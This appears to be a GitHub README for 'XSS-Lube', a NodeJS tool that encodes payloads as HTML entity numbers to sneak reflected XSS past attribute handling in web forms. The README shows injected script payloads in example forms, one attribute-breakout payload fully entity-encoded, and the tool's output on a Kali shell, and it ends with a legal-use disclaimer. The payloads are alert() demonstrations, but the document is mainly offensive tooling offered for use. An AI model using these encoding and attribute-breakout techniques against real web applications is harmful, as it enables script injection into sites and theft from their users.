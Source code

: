 # XSS-Lube

A tool to assist penetrating pages with XSS code that needs to find its way into HTML attributes.

At times it can be quite challenging to inject XSS code when the code's contents will be interpreted as HTML. This is particularly true in server-side reflected XSS that involves exploitation of an HTML attributes which can require some fairly tedious string manipulation. In cases where HTML you're in an HTML element and manipulating an attribute, you'll not want certain reserved characters to be interpreted as HTML characters. 

## Conditions of Success
To date, this has been tested against PHP servers where form data is reflected on POST. Additional uses are yet to be tested.

### Example Problem
This code will break due to the combination of use of several reserved characters and some code being interpreted as a string literal. 
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value="<script>alert("pwned");</script>" />
    <input type="submit" value="Submit">
</form>
```
The below will work to a limited degree, but only if you're directly manipulating the page. Otherwise, the injected script will not be received as input to the server and reflected back. This is becuase `...value=""/>` will be rendered literally before the script is reached and you'll only post an empty string to the server. 
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value=""/><script>alert("pwned");</script>"/>
    <input type="submit" value="Submit">
</form>
```
What we need is to send a string literal to the server that when reflected will be a complete set of generated code characters. One can manually fiddle with these inputs by mapping out characters to their HTML Number Entities. For example: 
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value=&#34;&#47;&#62;&#13;&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#32;&#32;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#112;&#119;&#110;&#101;&#100;&#33;&#34;&#41;&#59;&#13;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#60;&#13;/>
    <input type="submit" value="Submit">
</form>
```
This should work, and when reflected and re-rendered these HTML Entity Numbers will be translated into HTMl characters. 

But that's quite tedious, especially for longer programs. Ideally, you'll get your reflected XSS exploit working with minimal struggle in the domain of string manipulation so you can save your time working out other technical problems.

## XSS-Lube to the Rescue
This tool will take a cleverly crafted text document and convert it's contents into [HTML Entity](https://developer.mozilla.org/en-US/docs/Glossary/Entity) Numbers, thereby circumventing some cases in which otherwise valid exploits are hampered by how a character is handled by the server on HTML renderer.

**Dependencies**: NodeJS - consider installing the [Node Version Manager (NVM)](https://github.com/nvm-sh/nvm) to resolve this dependency.

## Example Usage

Example (test.html):

```html
<script>
  alert("pwned!");
</script>
```

Run the following code:
```sh
npm run start test.html
```
Or, with Yarn:
```sh
yarn start test.html
```

And then observe the output:

```text
ub3rl33t@kali:~$ yarn start test.html

===============================================================
██╗  ██╗███████╗███████╗      ██╗     ██╗   ██╗██████╗ ███████╗
╚██╗██╔╝██╔════╝██╔════╝      ██║     ██║   ██║██╔══██╗██╔════╝
 ╚███╔╝ ███████╗███████╗█████╗██║     ██║   ██║██████╔╝█████╗
 ██╔██╗ ╚════██║╚════██║╚════╝██║     ██║   ██║██╔══██╗██╔══╝
██╔╝ ██╗███████║███████║      ███████╗╚██████╔╝██████╔╝███████╗
╚═╝  ╚═╝╚══════╝╚══════╝      ╚══════╝ ╚═════╝ ╚═════╝ ╚══════╝
===============================================================
TEST.HTML - Text to HTML Entity Number for XSS:
---------------------------(start)-----------------------------
&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#32;&#32;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#112;&#119;&#110;&#101;&#100;&#33;&#34;&#41;&#59;&#13;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;
---------------------------(end)-----------------------------
```

The string of HTML Entity Numbers can be used in place of cumbersome characters in your exploit.

## Caution
As always, there is a lot of nuance in exploiting vulnerable web applications. And you have to gain and understanding of the environment. This tool will not work well in all cases. And, encoded text put into an input field will behave differently than text embedded into a page, etc. So, please temper your expectations. ^_^

## Obligatory Warning
Hacking is illegal, this tool is not intended for illegal activity and the author cannot be held responsible for such use. Please use responsibly either in your own home lab or for legitimate work where you've required established satisfactory legal, business, and moral grounds to perform any penetration testing. 
